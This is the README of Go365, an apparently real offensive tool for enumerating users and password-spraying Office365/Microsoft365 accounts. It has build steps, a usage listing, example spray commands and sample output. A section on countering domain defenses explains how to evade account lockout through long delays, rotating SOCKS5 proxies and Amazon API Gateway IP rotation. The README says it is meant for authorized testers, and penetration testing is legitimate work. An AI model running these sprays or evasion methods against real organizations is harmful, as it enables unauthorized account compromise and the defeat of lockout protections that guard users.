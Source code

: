 # Go365

**This tool is still in development. Please read all of this README before using Go365!**

Go365 is a tool designed to perform user enumeration and password guessing attacks on organizations that use Office365 (now/soon Microsoft365). Go365 uses a unique SOAP API endpoint on login.microsoftonline.com that most other tools do not use. When queried with an email address and password, the endpoint responds with an Azure AD Authentication and Authorization code. This code is then processed by Go365 and the result is printed to screen or an output file.

##### Read these three bullets!

- This tool might not work on **all** domains that utilize o365. Tests show that it works with most federated domains. Some domains will only report valid users even if a valid password is also provided. Your results may vary!
- The domains this tool was tested on showed that it did not actually lock out accounts after multiple password failures. Your results may vary!
- This tool is intended to be used by security professionals that are authorized to "attack" the target organization's o365 instance.

## Obtaining

#### Option 1

Download a pre-compiled binary for your OS [HERE](https://github.com/optiv/Go365/releases).

#### Option 2

Download the source and compile locally.

1. Install Go.
2. Go get some packages:

```
go get github.com/beevik/etree
go get github.com/fatih/color
go get golang.org/x/net/proxy
```

3. Clone the repo.
4. Navigate to the repo and compile ya dingus.

```
go build Go365.go
```

5. Run the resulting binary and enjoy :)

## Usage

```
$ go run ./Go365.go -h

 Usage:
     ./Go365 -ul <userlist> -p <password> -d <domain> [OPTIONS]
 Options:
     -h,            Show this stuff

	 Required:
     -u string              Username to use
                              - Username with or without "@domain.com"
                              (-u legit.user)
     -ul <file>             Username list to use
															- File should contain one username per line
															- Usernames can have "@domain.com"
                              - If no domain is specified, the -d domain is used
                              (-ul ./usernamelist.txt)
     -p <string>            Password to attempt
                              - Enclose in single quotes if it contains special characters
                              (-p password123  OR  -p 'p@s$w0|2d')
     -pl <file>            Password list to use
                              - File should contain one password per line
                              - Must be used with -delay
                              (-pl ./passwordlist.txt)
     -up <file>            Userpass list to use
															- One username and password separated by a ":" per line
                              - Be careful of duplicate usernames!
                              (-up ./userpasslist.txt)
     -d <string>            Domain to test
                              (-d testdomain.com)

   Optional:
     -w <int>              Time to wait between attempts in seconds.
                              - Default: 1 second. 5 seconds recommended.
                              (-w 10)
     -delay <int>          Delay (in seconds) between sprays when using a password list.
                              - Default: 10 minutes. 60 minutes (3600 seconds) recommended.
                              (-delay 600)
     -o <string>           Output file to write to
                              - Will append if file exists, otherwise a file is created
                              (-o ./output.out)
     -proxy <string>       Single proxy server to use
                              - IP address and Port separated by a ":"
                              - Has only been tested using SSH SOCKS5 proxies
                              (-proxy 127.0.0.1:1080)
     -proxyfile <string>    A file with a list of proxy servers to use
                              - IP address and Port separated by a ":" on each line
                              - Randomly selects a proxy server to use before each request
                              - Has only been tested using SSH SOCKS5 proxies
                              (-proxyfile ./proxyfile.txt)
     -url <string>          Endpoint to send requests to
                              - Amazon API Gateway 'Invoke URL'
                              (-url https://k62g98dne3.execute-api.us-east-2.amazonaws.com/login)
     -debug                 Debug mode.
                              - Print xml response
```

### Examples

```
./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com
./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5
./Go365 -up ./userpass_list.txt -d pwnthisfakedomain.com -w 5 -o Go365output.txt
./Go365 -u legituser@pwnthisfakedomain.com -p 'coolpasswordbro!123' -w 5 -o Go365output.txt -proxy 127.0.0.1:1080
./Go365 -u legituser -pl ./pass_list.txt -delay 1800 -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxyfile ./proxyfile.txt
./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -url https://k62g98dne3.execute-api.us-east-2.amazonaws.com/login
```

## Account Locked Out! (Domain Defenses)

**protip:** _You probably aren't **actually** locking out acocunts._

After a number of queries against a target domain, results might start reporting that accounts are locked out.

Once this defense is triggered, **user enumeration becomes unreliable since requests for valid and invalid users will randomly report that their accounts have been locked out**.

```
...
[-] User not found: test.user90@pwnthisfakedomain.com
[-] User not found: test.user91@pwnthisfakedomain.com
[-] Valid user, but invalid password: test.user92@pwnthisfakedomain.com
[!] Account Locked Out: real.user1@pwnthisfakedomain.com
[-] Valid user, but invalid password: test.user93@pwnthisfakedomain.com
[!] Account Locked Out: valid.user94@pwnthisfakedomain.com
[!] Account Locked Out: jane.smith@pwnthisfakedomain.com
[-] Valid user, but invalid password: real.user95@pwnthisfakedomain.com
[-] Valid user, but invalid password: fake.user96@pwnthisfakedomain.com
[!] Account Locked Out: valid.smith@pwnthisfakedomain.com
...
```

This is a defensive mechanism triggered by the number of **valid** user queries against the target domain within a certain period of **time**. The number of attempts and the period of time will vary depending on the target domain since the thresholds can be customized by the target organization.

### Countering Defenses

#### Wait time

The defensive mechanism is **time** and **IP address** based. Go365 provides options to include a wait time between requests and proxy options to distribute the source of the requests. To circumvent the defensive mechanisms on your target domain, use a long wait time and multiple proxy servers.

A wait time of AT LEAST 15 seconds is recommended. `-w 15`

#### SOCKS5 Proxies

If you still get "account locked out" responses, start proxying your requests. Proxy options have only been tested on SSH SOCKS5 dynamic proxies (`ssh -D <port> user@proxyserver`)

Create a bunch of SOCKS5 proxies on DO or AWS or Vultr or whatever and make a file that looks like this:

```
127.0.0.1:8081
127.0.0.1:8082
127.0.0.1:8083
127.0.0.1:8084
127.0.0.1:8085
127.0.0.1:8086
...
```

The tool will randomly iterate through the provided proxy servers and wait for the specified amount of time between requests.

`-w 15 -proxyfile ./proxies.txt`

#### Amazon API Gateway

Additionally, an endpoint url may be specified so this tool can interface with Amazon API Gateway. Setup a gateway to point to the `https://login.microsoftonline.com/rst2.srf` endpoint, then set the -url parameter to the provided `Invoke URL`. Your IP should be rotated with each request.

`-url https://k62g98dne3.execute-api.us-east-2.amazonaws.com/login`

